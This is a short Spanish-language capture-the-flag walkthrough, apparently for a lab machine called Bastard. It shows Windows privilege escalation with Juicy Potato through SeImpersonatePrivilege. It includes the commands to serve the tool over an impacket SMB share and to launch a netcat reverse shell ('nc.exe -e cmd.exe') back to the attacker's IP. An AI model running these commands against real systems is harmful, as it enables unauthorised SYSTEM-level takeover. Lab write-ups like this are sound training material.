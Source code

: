 ## Escalacion de privilegios

### Juicy Potato

si ejecutamos el comando whoami /priv vemos que tenemos activado el privilegio SeImpersonatePrivilege, lo que nos hace pensar que podemos escalar privilegios usando el exploit juicy potato

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled

C:\inetpub\drupal-7.54>
```

descargamos juciy potato del siguiente repositorio

```bash
https://github.com/ohpe/juicy-potato/releases
```

creamos un servidor de samba com impacket

```bash
Bastard # ❯ impacket-smbserver shared . -smb2support                       
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

descargamos en la maquina victima la herramienta jucypotato

```bash
C:\Windows\Temp\abeljm>copy \\10.10.14.70\shared\jp.exe C:\Windows\Temp\abeljm\jp.exe
```

```bash
C:\Windows\Temp\abeljm>jp.exe -l 1337 -p cmd.exe -a "/c C:\Windows\Temp\abeljm\nc.exe -e cmd.exe 10.10.14.70 443" -t * -c {C49E32C6-BC8B-11d2-85D4-00105A1F8304}
```
